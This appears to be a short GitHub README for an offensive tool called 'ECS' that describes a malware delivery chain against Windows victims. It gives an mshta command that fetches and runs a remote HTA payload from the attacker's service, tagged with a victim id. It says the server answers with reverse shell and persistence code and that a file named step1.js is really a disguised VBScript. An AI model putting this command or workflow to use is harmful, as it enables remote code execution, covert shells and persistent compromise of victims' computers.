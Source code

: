 # ECS
![](./ECC.png)

## $\color{cyan} {step1:}$         

$\color{cyan} {\textbf{ victim exec the malware or rce on victim :}}$
#### $\color{cyan} {\textit{ For windows:}}$
```powershell  
mshta https://< ecs service url >?uid=< victim uid >&s=1< step number in this > 
``` 
## $\color{cyan} {step 2}$
$\color{cyan} {\textbf{ server response to victim the reversshell code and persistant acts and make main persist malware
acuatlly the file in path  "ecs/statics/js/step1.js" is not javascript in truth its vbs script file and main html project is hta app }}$


